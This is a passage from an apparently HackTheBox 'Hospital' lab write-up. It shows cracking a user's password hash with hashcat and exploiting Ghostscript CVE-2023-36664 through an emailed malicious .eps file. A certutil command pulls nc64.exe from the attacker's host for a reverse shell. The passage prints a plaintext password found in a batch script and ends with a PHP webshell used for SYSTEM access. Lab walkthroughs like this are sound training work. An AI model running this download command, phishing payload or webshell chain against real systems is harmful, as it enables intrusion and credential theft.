lxd:!:19612::::::
mysql:!:19620::::::
```

Identifiying the hash and running hashcat to crack it, we got.


The hashcat output:

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/machines/hospital]                                                                                                                                                                                     [31/57]
└─$ hashcat -m 1800 drwilliams.hash /usr/share/wordlists/rockyou.txt --force --username
hashcat (v6.2.6) starting            

You have enabled --force to bypass dangerous warnings and errors!  
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.
                                                                                                                      
OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i5-9500 CPU @ 3.00GHz, 2198/4461 MB (1024 MB allocatable), 2MCU
...
$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:qwe123!@#
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz...W192y/
Time.Started.....: Thu Nov 30 12:02:15 2023, (4 mins, 56 secs)
Time.Estimated...: Thu Nov 30 12:07:11 2023, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      733 H/s (10.64ms) @ Accel:32 Loops:1024 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 214176/14344385 (1.49%)
Rejected.........: 0/214176 (0.00%)
Restore.Point....: 214144/14344385 (1.49%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4096-5000
Candidate.Engine.: Device Generator
Candidates.#1....: r55555 -> quien
Hardware.Mon.#1..: Util: 83%

Started: Thu Nov 30 12:00:56 2023
Stopped: Thu Nov 30 12:07:13 2023
```

Now, we were successful in logging into the SSH service with the correct `drwilliams` credentials.


Backing to our first webpage, where there is a webmail application, we log into it using the `drwilliams`’ credentials


We read the only email, from user `drbrown`, that there was in his inbox.


Reading the email and searching about “.eps” files and GhostScript technology, we got the possible vulnerability in this environment.

[GitHub - jakabakos/CVE-2023-36664-Ghostscript-command-injection: Ghostscript command injection vulnerability PoC (CVE-2023-36664)](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection?source=post_page-----791ad6dd24ed--------------------------------)

First, we inject the payload `certutil -urlcache -f [http://10.10.14.191/nc64.exe](http://10.10.14.191/nc64.exe) nc.exe`  in the `file.eps`:


Then we inject into the `file.eps` the reverse connection to our machine.


And we send an e-mail to `drbrown` user with our malicious `file.eps` file.


Checking our listener on our local port 443, we get the reverse connection.


Checking some drbrown’s files, we got a batch script that contains a possible password for him.

```bash
C:\Users\drbrown.HOSPITAL\Documents>type ghostscript.bat
type ghostscript.bat
@echo off
set filename=%~1
powershell -command "$p = convertto-securestring 'chr!$br0wn' -asplain -force;$c = new-object system.management.automation.pscredential('hospital\drbrown', $p);Invoke-Command -ComputerName dc -Credential $c -ScriptBlock { cmd.exe /c "C:\Program` Files\gs\gs10.01.1\bin\gswin64c.exe" -dNOSAFER "C:\Users\drbrown.HOSPITAL\Downloads\%filename%" }"
```

Checking the config file for XAMPP service we got the RoundCube webmail application database’s credentials.


# Privilege Escalation

Checking the XAMPP directory, we verify that the application is executing as authority\system what means it’s running as administrator.


Checking the htdocs directory, we see the administrator is the owner too.


So, we upload a PHP webshell in this directory via command line as user `drbrown`. Our PHP file has the following content.


Accessing our webshell, we can execute commands on the host as user Administrator.


Now, we can execute the netcat tool that is in the server and get our reverse shell.


Our listener:

